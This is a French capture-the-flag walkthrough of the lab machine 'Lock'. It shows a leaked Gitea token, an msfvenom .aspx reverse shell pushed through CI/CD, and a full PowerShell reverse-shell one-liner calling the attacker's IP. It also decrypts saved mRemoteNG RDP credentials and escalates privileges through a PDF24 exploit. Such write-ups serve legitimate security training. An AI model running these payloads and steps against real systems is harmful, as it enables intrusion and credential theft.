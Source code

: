 ```yaml
---
title: Lock
description: WU Lock
categories: [Writeup]
tags: [writeup]
template: doc
sidebar:
  order: 3
  badge:
    text: 'easy'
    variant: success
---
```



<Image src={banner} alt="banner" format="avif" quality={"mid"}/>

| OS | Difficulty | Target |
|----|----|----|
| Windows | <span style="color:green">**EASY**</span> | 10.10.92.237 |

## 🔭 Enumeration

```
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
3000/tcp open  ppp
3389/tcp open  ms-wbt-server
```

Scan approfondit des ports trouvés:

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Lock - Index
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds?
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=87dfb3e2af70e006; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=40IoXd4T_GFBgYejGbA9it2Tu-g6MTcyNjM0OTU4OTY2NjgxMjUwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 14 Sep 2024 21:33:09 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL2xvY2FsaG9zdDozMDAwLyIsImljb25zIjpbeyJzcmMiOiJodHRwOi8vbG9jYWxob3N0OjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjU
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=690ad1cf074d552c; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=IlVtCJ-F-vcFbXBL_eRGbH0Nb9Y6MTcyNjM0OTU5NTA2NDE1OTgwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 14 Sep 2024 21:33:15 GMT
|_    Content-Length: 0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Lock
| Not valid before: 2024-09-13T21:19:21
|_Not valid after:  2025-03-15T21:19:21
|_ssl-date: 2024-09-14T21:35:12+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: LOCK
|   NetBIOS_Domain_Name: LOCK
|   NetBIOS_Computer_Name: LOCK
|   DNS_Domain_Name: Lock
|   DNS_Computer_Name: Lock
|   Product_Version: 10.0.20348
|_  System_Time: 2024-09-14T21:34:32+00:00
```

| PORT | PROTOCOL |
|----|----|
| 80 | HTTP |
| 445 | SMB |
| 3000 | GITEA |
| 3389 | RDP |

## 👣 Foothold

Un dépôt `Gitea` sur le port 3000. Nous donne un nom d'user `ellen.freeman`. Il y a 2 commits et un script.
Le commit initial nous permet de récupérer le Token Gitea:

```py
PERSONAL_ACCESS_TOKEN = '43ce39bb0bd6bc489284f2905f033ca467a6362f' 
```

En jetant un coup d'oeil au script,  on peut voir qu'il énumère l'ensemble des dépôts présents sur Gitea pour un utilisateur donné.

En utilisant le script, nous découvrons un dépôt `/website`

```sh
python3 repos.py http://lock.vl:3000
Repositories:
- ellen.freeman/dev-scripts
- ellen.freeman/website
```

Téléchargeons le git:

```sh
git clone http://ellen.freeman:43ce39bb0bd6bc489284f2905f033ca467a6362f@lock.vl:3000/ellen.freeman/website.git
Cloning into 'website'...
remote: Enumerating objects: 165, done.
remote: Counting objects: 100% (165/165), done.
remote: Compressing objects: 100% (128/128), done.
remote: Total 165 (delta 35), reused 153 (delta 31), pack-reused 0
Receiving objects: 100% (165/165), 7.16 MiB | 2.58 MiB/s, done.
Resolving deltas: 100% (35/35), done.
```

En lisant le fichier `README.md` présent, il est indiqué que chaque modification, apportée au dépôt, est déployée automatiquement.

```sh
cat readme.md    
# New Project Website

CI/CD integration is now active - changes to the repository will automatically be deployed to the webserver# 
```

Création d'un reverse shell avec un fichier `.aspx` puis push vers le dépôt ou en utilisant [ce script](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx)

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.3.147 LPORT=4444 -f aspx -o web.aspx
git config --global user.name ellen.freeman
git config --global user.email ellen.freeman@lock.vl
git add web.aspx
git commit -m "Add web file"
git push
```

Dans un autre terminal j'écoute sur le port 4444, puis je me rends sur le lien du fichier en espérant obtenir un reverse shell.

```sh
nc -lvnp 4444
```

Sur le lien de la page, je saisis la commande:

```cmd
/c powershell.exe -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.8.3.147',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

On obtient notre reverse shell, en fouillant dans les répertoires de `ellen.freeman` on trouve un fichier `config.xml`.

```powershell
PS C:\Users\ellen.freeman\Documents> cat config.xml
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="sDkrKn0JrG4oAL4GW8BctmMNAJfcdu/ahPSQn3W5DPC3vPRiNwfo7OH11trVPbhwpy+1FnqfcPQZ3olLRy+DhDFp" ConfVersion="2.6">
    <Node Name="RDP/Gale" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="a179606a-a854-48a6-9baa-491d8eb3bddc" Username="Gale.Dekarios" Domain="" Password="TYkZkvR2YmVlm2T2jBYTEhPU2VafgW1d9NSdDX+hUYwBePQ/2qKx+57IeOROXhJxA7CczQzr1nRm89JulQDWPw==" Hostname="Lock" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostname="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false" InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
</mrng:Connections>
```

Le fichier `config.xml` est un fichier pour RemoteNG. J'utilise le script de ce [dépôt](https://github.com/gquere/mRemoteNG_password_decrypt) pour déchiffrer les informations présentes.

```sh wrap
python3 rng-decrypt.py config.xml   
Name: RDP/Gale
Hostname: Lock
Username: Gale.Dekarios
Password: ty8wnW9qCKDosXo6
```

On obtient donc l'user `Gale.Dekarios` et son mot de passe.
Connectons-nous en RDP.

Le flag user est présent sur le Bureau.

## 🎯 Privilege Escalation

A partir de la session de Gale.Dekarios, nous pouvons voir que le logiciel PDF24 est présent. En regardant les détails du programme, la version est la 11.15.1 dont un exploit permet de PrivEsc.

Le lien ci-contre nous indique la [marche à suivre](https://packetstormsecurity.com/files/176206/PDF24-Creator-11.15.1-Local-Privilege-Escalation.html).

- Téléchargeons SetOpLock.exe sur la machine cible ([Github](https://github.com/googleprojectzero/symboliclink-testing-tools/releases/tag/v1.0))
- Saisissons la commande suivante dans un prompt cmd: `.\SetOpLock.exe "C:\Program Files\PDF24\faxPrnInst.log" r`
- Un dossier `_Install`est présent à la racine de `C:` et possède l'installer msi requis pour monter en privilèges.
- Dans un autre terminal, lançons l'installation avec la commande suivante: `msiexec.exe /fa pdf24-creator-11.15.1-x64.msi`
- A la fin de l'installation un terminal s'ouvre, il suffit de cliquer droit sur la barre / Propriété et cliquer sur le lien `Legacy console mode link`
- Sélectionner Firefox, puis `CTRL+O`pour ouvrir `cmd.exe`à partir de Firefox. 
- Contrôler qui nous sommes avec la commande `whoami /all` 

Vous êtes administrateur, vous pouvez obtenir le flag `root.txt`dans le Desktop d'Administrator.
